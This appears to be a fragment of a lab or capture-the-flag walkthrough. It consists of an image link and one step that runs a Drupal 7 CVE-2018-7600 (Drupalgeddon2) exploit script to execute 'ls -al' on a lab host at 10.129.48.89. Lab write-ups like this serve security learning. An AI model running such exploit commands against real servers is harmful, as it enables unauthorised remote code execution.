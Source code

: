 ![](./IMG/8.png)

4. Check the file in current directory

```
python drupa7-CVE-2018-7600.py -c 'ls -al' http://10.129.48.89
```

